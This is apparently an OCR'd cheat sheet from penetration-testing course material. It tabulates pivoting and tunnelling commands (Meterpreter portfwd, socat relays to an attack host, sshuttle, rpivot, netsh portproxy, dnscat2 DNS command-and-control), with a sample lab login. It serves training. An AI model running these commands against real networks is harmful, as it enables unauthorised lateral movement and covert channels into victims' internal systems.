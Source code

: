 | `socks4 	127.0.0.1 9050`                                    | Line of text that should be added to /etc/proxychains.conf to ensure a SOCKS version 4 proxy is used in combination with proxychains on the specified IP address and port. |
| `Socks5 127.0.0.1 1080`                                        | Line of text that should be added to /etc/proxychains.conf to ensure a SOCKS version 5  proxy is used in combination with proxychains on the specified IP address and port. |
| `msf6 > use post/multi/manage/autoroute`                       | Metasploit command used to select the autoroute module.      |
|                                                              |                                                              |
| `meterpreter > help portfwd`                                   | Meterpreter command used to display the features of the portfwd command. |
| `meterpreter > portfwd add -l 3300 -p 3389 -r <IPaddressofTarget>` | Meterpreter-based portfwd command that adds a forwarding rule to the current Meterpreter session. This rule forwards network traffic on port 3300 on the local machine to port 3389 (RDP) on the target. |
| `xfreerdp /v:localhost:3300 /u:victor /p:pass@123`             | Uses xfreerdp to connect to a remote host through localhost:3300 using a set of credentials. Port forwarding rules must be in place for this to work properly. |
| `netstat -antp`                                                | Used to display all (`-a`) active network connections with associated process IDs. `-t` displays only TCP connections.`-n` displays only numerical addresses. `-p` displays process IDs associated with each displayed connection. |
| `meterpreter > portfwd add -R -l 8081 -p 1234 -L <IPaddressofAttackHost>` | Meterpreter-based portfwd command that adds a forwarding rule that directs traffic coming on on port 8081 to the port `1234` listening on the IP address of the Attack Host. |
| `meterpreter > bg`                                             | Meterpreter-based command used to run the selected metepreter session in the background. Similar to background a process in Linux |
| `socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofAttackHost>:80`  | Uses Socat to listen on port 8080 and then to fork when the connection is received. It will then connect to the attack host on port 80. |
| `socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofTarget>:8443`    | Uses Socat to listen on port 8080 and then to fork when the connection is received. Then it will connect to the target host on port 8443. |
| `plink -D 9050 ubuntu@<IPaddressofTarget>`                     | Windows-based command that uses PuTTY's Plink.exe to perform SSH dynamic port forwarding and establishes an SSH tunnel with the specified target. This will allow for proxy chaining on a Windows host, similar to what is done with Proxychains on a Linux-based host. |
| `sudo apt-get install sshuttle`                                | Uses apt-get to install the tool sshuttle.                   |
| `sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0 -v`          | Runs sshuttle, connects to the target host, and creates a route to the 172.16.5.0 network so traffic can pass from the attack host to hosts on the internal network (`172.16.5.0`). |
| `sudo git clone https://github.com/klsecservices/rpivot.git`   | Clones the rpivot project GitHub repository.                 |
| `sudo apt-get install python2.7`                               | Uses apt-get to install python2.7.                           |
| `python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0` | Used to run the rpivot server (`server.py`) on proxy port `9050`, server port `9999` and listening on any IP address (`0.0.0.0`). |
| `scp -r rpivot ubuntu@<IPaddressOfTarget>`                     | Uses secure copy protocol to transfer an entire directory and all of its contents to a specified target. |
| `python2.7 client.py --server-ip 10.10.14.18 --server-port 9999` | Used to run the rpivot client (`client.py`) to connect to the specified rpivot server on the appropriate port. |
| `proxychains firefox-esr <IPaddressofTargetWebServer>:80`      | Opens firefox with Proxychains and sends the web request through a SOCKS proxy server to the specified destination web server. |
| `python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>` | Use to run the rpivot client to connect to a web server that is using HTTP-Proxy with NTLM authentication. |
| `netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25` | Windows-based command that uses `netsh.exe` to configure a portproxy rule called ` v4tov4`  that listens on port 8080 and forwards connections to the destination 172.16.5.25 on port 3389. |
| `netsh.exe interface portproxy show v4tov4`                    | Windows-based command used to view the configurations of a portproxy rule called v4tov4. |
| `git clone https://github.com/iagox86/dnscat2.git`             | Clones the `dnscat2` project GitHub repository.              |
| `sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache` | Used to start the dnscat2.rb server running on the specified IP address, port (`53`) & using the domain `inlanefreight.local` with the no-cache option enabled. |
| `git clone https://github.com/lukebaggett/dnscat2-powershell.git` | Clones the dnscat2-powershell project Github repository.     |
| `Import-Module dnscat2.ps1`                                    | PowerShell command used to import the dnscat2.ps1 tool.      |